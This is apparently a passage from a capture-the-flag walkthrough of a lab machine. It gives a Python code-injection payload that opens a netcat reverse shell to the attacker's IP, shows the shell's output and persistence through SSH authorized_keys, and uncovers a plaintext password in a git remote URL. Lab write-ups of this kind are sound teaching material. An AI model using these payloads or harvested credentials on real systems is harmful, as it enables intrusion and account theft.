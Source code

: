 Now i jsut need to replace the innocent print statement with a one line python reverse shell, a sample payload can look like this:

```
engine=Google&query=whatever'),__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.201 9999 >/tmp/f")#
```

I start a netcat listener, input the above paylaod to BurpSuite, URL encode it and after i send i get a connection on mu listener:

```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.201] from (UNKNOWN) [10.10.11.208] 44186
sh: 0: can't access tty; job control turned off
$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

I am the `svc` user. I can read the flag from this users home directory. I will generate new ssh key and write my public key to `~/.ssh/authorized_keys`, so i can connect over ssh with better shell.

## Root

The reverse shell spawns in the `/var/www/app` folder, and i can see that it is a git repository:

```bash
-bash-5.1$ pwd
/var/www/app
-bash-5.1$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 Apr  8 19:01 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
```

Trying out several commands to enumrate the repository, like `git log` or `git branch` reveals nothing, however when i list the current config i get something interesting:

```
-bash-5.1$ git config --list
user.email=cody@searcher.htb
user.name=cody
core.hookspath=no-hooks
safe.directory=/var/www/app
core.repositoryformatversion=0
core.filemode=true
core.bare=false
core.logallrefupdates=true
remote.origin.url=http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
remote.origin.fetch=+refs/heads/*:refs/remotes/origin/*
branch.main.remote=origin
branch.main.merge=refs/heads/main
```
